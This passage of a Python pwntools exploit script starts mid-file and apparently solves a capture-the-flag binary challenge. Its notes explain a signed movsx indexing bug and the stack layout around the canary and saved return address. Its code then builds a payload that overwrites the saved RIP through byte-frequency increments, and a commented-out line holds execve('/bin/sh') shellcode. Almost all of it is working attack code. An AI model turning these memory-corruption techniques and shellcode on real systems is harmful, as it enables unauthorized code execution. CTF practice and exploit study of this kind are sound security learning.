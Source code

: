 ```py
elif 'LOCAL' in args:
    p = remote('localhost', 5000)
else:
    p = process([elf.path])
    if 'GDB' in args: gdb.attach(p, gdbscript=gdbscript)


#-----------CONSTANTS--------------#

# sh = bytes(asm('mov rax, 0x68732f6e69622f; push rax; mov rdi, rsp; mov rsi, 0; mov rdx, 0; mov rax, SYS_execve; syscall;'))


#-------------NOTES----------------#

'''
movsx --> signed instruction --> input bytes > 0x7f leads to negative offsets

Stack format:
0x060: [Pointer to byte_freq_dict (BFD)] [Pointer to input chunk]
0x070: BFD[0x100]
0x170: [Pointer to 0x180] [CANARY]
0x180: [Pointer to 0x190] [Saved RIP (main+28)]
0x190: [Pointer to 0x230] [Another saved RIP (__libc_start_call_main+122)]
'''


###################################
#==========BEGIN EXPLOIT==========#
###################################

#-------OVERWRITE SAVED RIP-------#

OVERFLOW_CONSTANT = 0x100
MAX_LEN = 0x200
SAVED_RIP = elf.sym.main+0x1c

def change_addr(original: int, new: int, offset: int, num_writes: int=0x8):
    freqs = [0 for _ in range(num_writes)]

    for i in range(num_writes):
        freqs[i] = (new & 0xff) - (original & 0xff)
        if freqs[i] < 0: freqs[i] = OVERFLOW_CONSTANT + freqs[i]
        
        new >>= 8
        original >>= 8

    if sum(freqs) > MAX_LEN:
        raise OverflowError(f'Too many writes {hex(sum(freqs))}\n{list(map(hex, freqs))}')
    
    writes = []
    for i in range(num_writes):
        writes += [offset + i]*freqs[i]
    
    return writes



increase_BFD_0x100 = [OVERFLOW_CONSTANT - 0xf]
payload = bytes(increase_BFD_0x100 + change_addr(SAVED_RIP, elf.sym.main, 3*0x8))
assert len(payload) <= MAX_LEN
payload = payload.rjust(MAX_LEN, b'\x00')
send(payload, line=False)
```